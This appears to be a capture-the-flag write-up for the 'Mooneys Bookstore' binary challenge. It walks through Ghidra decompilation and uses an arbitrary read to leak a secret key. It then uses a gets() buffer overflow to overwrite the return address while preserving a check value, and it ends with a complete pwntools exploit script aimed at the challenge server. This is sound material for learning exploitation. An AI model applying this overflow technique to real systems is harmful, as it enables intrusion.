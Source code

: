 # Mooneys Bookstore
## Mitigations
```
    Arch:     amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
## Solution

The challenge gives us only a binary [chal](./chal).
When opening the file in Ghidra, we can see that `main` appears as so:

```c
undefined8 main(void)

{
  FILE *ctx;
  long local_18;
  undefined8 *local_10;
  
  setvbuf(stdout,(char *)0x0,2,0);
  ctx = stdin;
  setvbuf(stdin,(char *)0x0,2,0);
  init((EVP_PKEY_CTX *)ctx);
  puts(&DAT_00402018);
  puts("\nYour favorite book waits for you. Tell me its address");
  read(0,&local_10,8);
  printf("%lx\n",*local_10);
  puts("\nOf course there\'s a key. There always is. If you speak it, the story unlocks");
  read(0,&local_18,8);
  if (local_18 == secret_key) {
    get_input();
  }
  else {
    puts(&DAT_004021b0);
  }
  return 0;
}
```

As we can see, we have an arbitrary read. 

```c
read(0,&local_10,8);
printf("%lx\n",*local_10);
```

Since there is no other vulnerabilities we can exploit here, we can take a look at the `get_input` function:

```c
void get_input(void)

{
  char input [64];
  long local_18;
  FILE *local_10;
  
  local_10 = fopen("/dev/urandom","rb");
  if (local_10 == (FILE *)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fread(&val,8,1,local_10);
  fclose(local_10);
  local_18 = val;
  printf("\n\tA post-it on the floor. You would have stepped over it. I didn\'t. It has something fo r you: 0x%lx\n"
         ,val);
  puts("\nYour turn now. Write yourself into this story.");
  fflush(stdout);
  gets(input);
  if (local_18 != val) {
    puts("\nDisappointing. But that\'s you, isn\'t it? Messy. Human. And I stay anyway.");
    fflush(stdout);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  return;
}
```

Within this function, there is a gets call! So we can safely assume that is what we'll use to cause a buffer overflow.
Going back to the `main` function, we can see that to get into `get_input`, we need `local_18` to equal `secret_key`.

```c
if (local_18 == secret_key) {
    get_input();
}
```

We know that `secret_key` is a global variable, and thus is not on the stack. However, we can use the arbitrary read within `main` to read the value of `secret_key` and pass that back into `main`!

```py
io = start()

io.recvuntil(b"address")
io.send(p64(0x4040b8)) #The address of the `secret_key`
io.recvline()
s = io.recvline()[:-1]
io.send(p64(int(s,16)))
```

Running our program we get the output:

```
Of course there's a key. There always is. If you speak it, the story unlocks

    A post-it on the floor. You would have stepped over it. I didn't. It has something for you: 0xfa527d1ec734ee72

Your turn now. Write yourself into this story.
```

The hex address in the output appears suspicious, and on a second look at the `get_input` function, we see the line

```c
local_18 = val;
printf("\n\tA post-it on the floor. You would have stepped over it. I didn\'t. It has something fo r you: 0x%lx\n"
    ,val);
puts("\nYour turn now. Write yourself into this story.");
fflush(stdout);
gets(input);
if (local_18 != val) {
    puts("\nDisappointing. But that\'s you, isn\'t it? Messy. Human. And I stay anyway.");
    fflush(stdout);
                    /* WARNING: Subroutine does not return */
    exit(1);
}
```

So it appears that the `local_18` variable needs to equal anolther global variable for our exploit to work. Thankfully, the hex address we saw earlier is that global variable's value! So, all we need to do is read that value and make sure we place it right where `local_18` is on the stack when overflowing the buffer. Taking a look at what the stack looks like (obtained from looking at the assembly in Ghidra) with this function we see that the input buffer is located at -0x58 compared to the return address, while `local_18` is located at -0x18.

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined get_input()
             undefined         AL:1           <RETURN>
             undefined8        Stack[-0x10]:8 local_10                                XREF[4]:     00401353(W), 
                                                                                                   00401357(R), 
                                                                                                   00401368(R), 
                                                                                                   00401388(R)  
             undefined8        Stack[-0x18]:8 local_18                                XREF[2]:     0040139b(W), 
                                                                                                   004013f3(R)  
             undefined1[64]    Stack[-0x58]   input                                   XREF[1]:     004013db(*)  
                             get_input                                       XREF[4]:     Entry Point(*), main:00401315(c), 
                                                                                          0040231c, 004023e0(*)  
        00401332 55              PUSH       RBP
```

Combining what we know, we end up with the final solve script.

## Script

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--host=chals.ctf.csaw.io' '--port=21006'
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'overflow')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'chals.ctf.csaw.io'
port = int(args.PORT or 21006)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
b *(get_input+239)
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

io.recvuntil(b"address")
io.send(p64(0x4040b8)) #The address of the `secret_key`
io.recvline()
s = io.recvline()[:-1]
io.send(p64(int(s,16)))
io.recvuntil(b"you:")
s2 = io.recvline()[1:-1]
print(s2)
buf = b'a' * (0x58-0x18)
buf = buf + p64(int(s2,16))
#buf = buf + b'a'*0x18
buf = buf + (b'0' * 0x10)
buf = buf + p64(0x401423) +  p64(0x401424)
io.send(buf)

io.interactive()
```

Running this gives us the flag. I do not remember what the flag was and the infrastructure was down at the time of writing this. :P